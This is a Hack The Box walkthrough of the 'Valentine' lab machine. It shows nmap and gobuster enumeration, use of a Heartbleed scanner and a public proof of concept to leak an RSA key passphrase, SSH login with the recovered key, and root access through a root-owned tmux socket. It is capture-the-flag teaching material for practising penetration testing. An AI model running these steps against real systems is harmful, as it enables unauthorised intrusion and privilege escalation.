

# Hack The Box | [Valentine](https://app.hackthebox.eu/machines/127)
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.129.1.110  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ nmap -sC -sV 10.129.1.190
 Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 10:31 EST
Nmap scan report for 10.129.1.190
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.04 seconds
~~~
The scan only picked up port 22 in the scan. So I tried doing an intense scan on all TCP ports.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ nmap -p 1-65535 -T4 -A 10.129.1.190
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 11:00 EST
Nmap scan report for 10.129.1.190
Host is up (0.025s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE    VERSION
22/tcp  open  tcpwrapped
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-01-10T16:05:06+00:00; +4m07s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/10%OT=80%CT=1%CU=36172%PV=Y%DS=2%DC=T%G=Y%TM=5FFB24B
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%TS=8)SEQ(SP=1
OS:07%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=8)OPS(O1=M54DST11NW4%O2=M54DST11NW4%O
OS:3=M54DNNT11NW4%O4=M54DST11NW4%O5=M54DST11NW4%O6=M54DST11)WIN(W1=3890%W2=
OS:3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%DF=Y%T=40%W=3908%O=M54DNNSN
OS:W4%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=4
OS:0%W=3890%S=O%A=S+%F=AS%O=M54DST11NW4%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G
OS:)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

Host script results:
|_clock-skew: 4m06s

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   24.45 ms 10.10.14.1
2   24.66 ms 10.129.1.190

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.69 seconds
~~~
### Open Ports/Services
22/tcp - SSH  
80/tcp - HTTP  
443/tcp - SSL  
### HTTP
I decided to use gobuster to brute-force directories on the web server.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ gobuster dir -u http://10.129.1.190/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.190/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/10 11:17:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/cgi-bin/ (Status: 403)
/decode (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/index (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/10 11:17:39 Finished
===============================================================
~~~
Upon browsing to /dev, I was greeted with some files in the directory.  
  
The notes.txt is a silly note.  
  
And hype_key appeared to be hexadecimal. We can use a hexadecimal decoder to decode. I downloaded the file to my system and pasted the hexadecimal output at https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto').  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ wget http://10.129.1.190/dev/hype_key
--2021-01-10 11:23:48--  http://10.129.1.190/dev/hype_key
Connecting to 10.129.1.190:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5383 (5.3K)
Saving to: ‘hype_key’

hype_key             100%[=====================>]   5.26K  --.-KB/s    in 0s      

2021-01-10 11:23:48 (503 MB/s) - ‘hype_key’ saved [5383/5383]
~~~
The output from **CyberChef** was an RSA key.  
  
Should be able to use this RSA key to ssh into the system. I just need to figure out the passphrase to the key. Given the name of the file being hype_key, I am assuming the user is named hype.  
### SSL
Given the name of this CTF and port 443 being open with SSL. I decided to launch msfconsole to check for the heartbleed vulnerability using auxiliary/scanner/ssl/openssl_heartbleed.  
~~~Bash
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed 
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > show options

Module options (auxiliary/scanner/ssl/openssl_heartbleed):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   DUMPFILTER                         no        Pattern to filter leaked memory before storing
   LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
   MAX_KEYTRIES      50               yes       Max tries to dump key
   RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443              yes       The target port (TCP)
   STATUS_EVERY      5                yes       How many retries until key dump status
   THREADS           1                yes       The number of concurrent threads (max one per host)
   TLS_CALLBACK      None             yes       Protocol to use, "None" to use raw TLS sockets (Accepted: None, SMTP, IMAP, JABBER, POP3, FTP, POSTGRES)
   TLS_VERSION       1.0              yes       TLS/SSL version to use (Accepted: SSLv3, 1.0, 1.1, 1.2)

Auxiliary action:

   Name  Description
   ----  -----------
   SCAN  Check hosts for vulnerability

msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.129.1.190
RHOSTS => 10.129.1.190
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 10.129.1.190:443      - Heartbeat response with leak, 65535 bytes
[*] 10.129.1.190:443      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~
The output confirms it is vulnerable hence why the heartbeat leaked info.  
## Foothold
### Exploiting Heartbleed
Since I was able to confirm that the target is vulnerable to heartbleed, I decided to move on to another exploit. https://github.com/sensepost/heartbleed-poc.  
The Python script should allow me to get a hex dump.  
~~~Bash.
Server TLS version was 1.2

Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 6E  mV0aGVoeXBlCg==n
  0160: 61 CC DB 71 F3 AC C8 15 D1 6C 7D 6D 51 8E 45 99  a..q.....l}mQ.E.
  0170: 4B EE 83 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  K...............
  ~~~
  In the response I received a Base64 encoding of **aGVhcnRibGVlZGJlbGlldmV0aGVoeXBl**, I can use CyberChef again to decode it.  
    
  I'll use the output as the passphrase to the RSA key.  
  #### Found Key
  Passphrase: heartbleedbelievethehype  
  ### SSH
  Using the passphrase we just found, I should be able to SSH into the system with the RSA key we got earlier. First I modified the permissions on the key file I made based on the output earlier.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ chmod 400 id_rsa
~~~
And now I should be able to SSH.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ ssh -i id_rsa hype@10.129.1.190
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
~~~
Excellent, I can go ahead and easily capture the user.txt flag in /home/hype/desktop. Time to do some file browsing for further enumeration as the user this time.  
### File Browsing
I browsed the directories for anything interesting and checked which groups this user belongs to.  
~~~Bash
hype@Valentine:~$ groups
hype cdrom dip plugdev sambashare
~~~
I ran the command **find / -type f -group "group name" 2>/dev/null** for every group to look for anything that might prove useful or for any special permission/file. Afterwards, I took a look at hype's .bash_history.  
~~~Bash
hype@Valentine:~$ cat .bash_history

cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
ls
su
id
~~~
tmux? I can check if there are any active sessions running with **ps aux**.  
## PrivEsc
### Process Check
After running ps aux, I found that a tmux session was running as the root user.  
~~~Bash
root       1211  0.0  0.1  26416  1676 ?        Ss   07:37   0:02 /usr/bin/tmux -S /.devs/dev_sess
~~~
And after confirming that hype has access to the /.devs directory, I should be able to connect to the tmux session.  
~~~Bash
tmux -S /.devs/dev_sess
~~~
And in return, we're now root.  
~~~Bash
root@Valentine:/home/hype# whoami
root
~~~
From here we can now capture the root.txt flag in /root.
